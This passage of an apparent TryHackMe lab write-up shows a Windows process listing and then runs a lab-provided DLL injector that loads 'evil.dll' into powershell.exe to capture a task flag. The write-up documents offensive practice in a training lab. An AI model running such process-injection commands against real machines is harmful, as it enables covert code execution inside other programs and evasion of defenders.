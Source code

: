 ```PowerShell
    221      10     1888       7412              1672   0 svchost
    202      11     1632       7128              1744   0 svchost
    203      10     2084       8100              2176   0 svchost
    130       7     1656       6368              3004   0 svchost
    184      10     4204      13176              3612   0 svchost
    455      19     6104      28864       0.22   3796   3 svchost
    293      16     4752      17788              2160   0 Sysmon
   1956       0      192        156                 4   0 System
    241      21     4036      13084       0.03   3820   3 taskhostw
    126       7     1280       6544              2416   0 unsecapp
    179      11     1596       6824               656   0 wininit
    250      12     2632      15700               704   1 winlogon
    291      12     2688      10172              3100   3 winlogon
    174       9     2116       8776               104   0 WmiPrvSE
```

3. `cd <EXPLOIT DIRECTORY>` from the Windows machine to change into the directory containing our thread injector script that was provided to us with this machine
```PowerShell
PS C:\Users\THM-Attacker> cd .\Desktop\Injectors\
```

4. `.\<EXPLOIT> <PROCESS NAME> <MALICIOUS DLL>` from the Windows machine to execute the provided DLL injection script by providing it the name of the target process and the path to the malicious DLL that was provided with this machine, which ended up revealing this task's flag
```PowerShell
PS C:\Users\THM-Attacker\Desktop\Injectors> .\dll-injector.exe powershell.exe evil.dll
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20DLLs%20pt1.png)


**TASK COMPLETED!**
